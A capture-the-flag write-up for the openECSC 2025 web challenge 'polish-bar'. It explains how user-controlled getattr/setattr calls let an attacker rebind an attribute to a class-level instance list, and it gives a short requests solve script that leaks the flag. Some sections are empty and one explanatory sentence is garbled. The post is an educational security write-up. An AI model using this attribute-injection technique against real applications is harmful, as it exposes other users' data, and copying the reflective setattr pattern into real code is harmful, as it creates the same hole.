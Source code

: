 ```yaml
---
title: "openESEC 2025 - web/polish-bar"
layout: single
classes: wide
date: 2025-10-06
categories: blog
toc: true
toc_label: "Table of contents"
---
```


# Polish-bar

> This Web Application was made to adapt to polish (drinking) culture :3

## Primitves

We have http endpoint to register which in turn we need to aquire a valid session. Afterwards, we have the endpoints `config`,`empty` and `beverage` which I mapped to the methods below in the class `BeverageConfig` and `PreferenceConfig`.

```py
    def get_property(self, val):
        try:
            if hasattr(self.alcohol_shelf, val):
                return getattr(self.alcohol_shelf, val)

            return getattr(self, val)
        except:
            return

    # /config
    def update_property(self, key: str, val: str):
        attr = self.get_property(val)
        if attr:
            setattr(self, key, attr)
            return
        return { 'error': 'property doesn\'t exist!' }
    
    # /empty
    def empty_alcohol_shelf(self):
        if hasattr(self.alcohol_shelf, "_alcohol_shelf"):
            self.alcohol_shelf._alcohol_shelf = [self.alcohol_shelf._alcohol_shelf[0]]
        else:
            self.alcohol_shelf = self.alcohol_shelf[0]

    # /beverage
    def add_beverage(self, beverage: str):
        self.alcohol_shelf._alcohol_shelf.append(beverage)

```

Let's disect what each method does:

- `update_property` retrieves the attribute `val` and sets the attribute `key` to its value
- `empty_alcohol_shelf` will shorten the list `self.alcohol_shelf._alcohol_shelf` to its first value to the list `self.alcohol_shelf` to its first value
- `add_beverage` add an item to the list `self.alcohol_shelf._alcohol_shelf`

If you are not familiar with the special methods `getattr`, `setattr` and `hasattr` --- I got you covered in the next section!

Furthermore, the class `PreferenceConfig` and thus `BeverageConfig` due to inheritance have one interesting class variable `_all_instances`. The `__init__` for `PreferenceConfig` append every newly created object to that class as long it inherited from `PreferenceConfig`. 

## Python refresher on instance and objects vars

Below is a small playground I created if you want to try it on your own first. 

<iframe
  src="https://bluuuk.github.io/blog-jupyterlite/lab/index.html?path=/attr.ipynb"
  width="100%"
  height="1000px">
</iframe>

<script type="module">
  const iframe = document.getElementById('jlite');

  function onReadyThenHideAndOpen() {
    const win = iframe.contentWindow;
    if (!win || !win.jupyterapp) {
      setTimeout(onReadyThenHideAndOpen, 200);
      return;
    }

    // First hide the left sidebar
    win.jupyterapp.commands.execute('application:toggle-left-area')
      .catch(err => console.warn('toggle-left-area failed', err));

    // Then open the notebook
    win.jupyterapp.commands.execute('docmanager:open', {
      path: 'content/openECSC-playground.ipynb'
    }).catch(e => console.error('Error opening notebook:', e));
  }

  iframe.addEventListener('load', () => {
    onReadyThenHideAndOpen();
  });
</script>

## Intuition


## Step by step guide


## Final Solve

We use an `Session` which automatically glues cookie to subsequent http request once they set - here its the `session` cookie:

```py
import requests
session = requests.Session()
base = "https://3a454160-13f7-4fdc-beaf-ea41d11839cb.openec.sc:1337"

session.post( f"{base}/register", data={"username":"admin","password":"lol"})
session.post(f"{base}/empty")
session.post(f"{base}/config",data={"config":"alcohol_shelf","value":"_all_instances"})
session.post(f"{base}/empty")
print(session.post(f"{base}/profile"))
```

Executing our solve script gives us our well deserved flag :)

```bash
❯ python solve.py | grep open
                    openECSC{gggrrrrrrr_ppyytthhonnn_8c719052fa04}
                               value="openECSC{gggrrrrrrr_ppyytthhonnn_8c719052fa04}">
````
